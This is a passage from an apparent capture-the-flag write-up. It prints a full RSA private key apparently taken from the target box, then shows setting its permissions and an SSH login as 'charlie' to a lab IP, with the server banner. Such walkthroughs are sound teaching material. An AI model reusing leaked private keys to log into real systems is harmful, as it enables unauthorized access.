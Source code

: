 ````commandline
-----BEGIN RSA PRIVATE KEY----- MIIEowIBAAKCAQEA4adrPc3Uh98RYDrZ8CUBDgWLENUybF60lMk9YQOBDR+gpuRW 1AzL12K35/Mi3Vwtp0NSwmlS7ha4y9sv2kPXv8lFOmLi1FV2hqlQPLw/unnEFwUb L4KBqBemIDefV5pxMmCqqguJXIkzklAIXNYhfxLr8cBS/HJoh/7qmLqrDoXNhwYj B3zgov7RUtk15Jv11D0Itsyr54pvYhCQgdoorU7l42EZJayIomHKon1jkofd1/oY fOBwgz6JOlNH1jFJoyIZg2OmEhnSjUltZ9mSzmQyv3M4AORQo3ZeLb+zbnSJycEE RaObPlb0dRy3KoN79lt+dh+jSg/dM/TYYe5L4wIDAQABAoIBAD2TzjQDYyfgu4Ej Di32Kx+Ea7qgMy5XebfQYquCpUjLhK+GSBt9knKoQb9OHgmCCgNG3+Klkzfdg3g9 zAUn1kxDxFx2d6ex2rJMqdSpGkrsx5HwlsaUOoWATpkkFJt3TcSNlITquQVDe4tF w8JxvJpMs445CWxSXCwgaCxdZCiF33C0CtVw6zvOdF6MoOimVZf36UkXI2FmdZFl kR7MGsagAwRn1moCvQ7lNpYcqDDNf6jKnx5Sk83R5bVAAjV6ktZ9uEN8NItM/ppZ j4PM6/IIPw2jQ8WzUoi/JG7aXJnBE4bm53qo2B4oVu3PihZ7tKkLZq3Oclrrkbn2 EY0ndcECgYEA/29MMD3FEYcMCy+KQfEU2h9manqQmRMDDaBHkajq20KvGvnT1U/T RcbPNBaQMoSj6YrVhvgy3xtEdEHHBJO5qnq8TsLaSovQZxDifaGTaLaWgswc0biF uAKE2uKcpVCTSewbJyNewwTljhV9mMyn/piAtRlGXkzeyZ9/muZdtesCgYEA4idA KuEj2FE7M+MM/+ZeiZvLjKSNbiYYUPuDcsoWYxQCp0q8HmtjyAQizKo6DlXIPCCQ RZSvmU1T3nk9MoTgDjkNO1xxbF2N7ihnBkHjOffod+zkNQbvzIDa4Q2owpeHZL19 znQV98mrRaYDb5YsaEj0YoKfb8xhZJPyEb+v6+kCgYAZwE+vAVsvtCyrqARJN5PB la7Oh0Kym+8P3Zu5fI0Iw8VBc/Q+KgkDnNJgzvGElkisD7oNHFKMmYQiMEtvE7GB FVSMoCo/n67H5TTgM3zX7qhn0UoKfo7EiUR5iKUAKYpfxnTKUk+IW6ME2vfJgsBg 82DuYPjuItPHAdRselLyNwKBgH77Rv5Ml9HYGoPR0vTEpwRhI/N+WaMlZLXj4zTK 37MWAz9nqSTza31dRSTh1+NAq0OHjTpkeAx97L+YF5KMJToXMqTIDS+pgA3fRamv ySQ9XJwpuSFFGdQb7co73ywT5QPdmgwYBlWxOKfMxVUcXybW/9FoQpmFipHsuBjb Jq4xAoGBAIQnMPLpKqBk/ZV+HXmdJYSrf2MACWwL4pQO9bQUeta0rZA6iQwvLrkM Qxg3lN2/1dnebKK5lEd2qFP1WLQUJqypo5TznXQ7tv0Uuw7o0cy5XNMFVwn/BqQm G2QwOAGbsQHcI0P19XgHTOB7Dm69rP9j1wIRBOF7iGfwhWdi+vln -----END RSA PRIVATE KEY----- 
````

I think it's time to try this out now. 

First set the right permission, only readable by user, otherwise `ssh` will not accept it.

````commandline
$ chmod 600 teleport
````

**IMPORTANT NOTE: Had to fix the `teleport` file by hand. I have no idea why this was so, and I didn't look up back the origin of this issue. Bad copy and paste skill, or due to the output of the web server. Anyway, when trying to `ssh` to the box, I received the message `Load key "teleport": invalid format`. I saw there was some extra spaces which I deleted by hand. I let you fix that yourself, so no copy and paste this time. I'm quite, kind, so I show the end result here:**

![alt text](files/teleport.png "Website screenshot")

## Login with SSH

So finally connecting to the target box with `ssh` and grabbing the `user.txt`.

````commandline
$ ssh -i teleport charlie@$IP
The authenticity of host '10.10.101.117 (10.10.101.117)' can't be established.
ECDSA key fingerprint is SHA256:gd9u+ZN0RoEwz95lGsM97tRG/YPtIg9MwOxswHac8yM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.101.117' (ECDSA) to the list of known hosts.
$ ssh -i teleport charlie@$IP
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-115-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Aug 24 13:06:47 UTC 2021

  System load:  0.08              Processes:           1199
  Usage of /:   43.6% of 8.79GB   Users logged in:     0
  Memory usage: 47%               IP address for eth0: 10.10.101.117
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.



````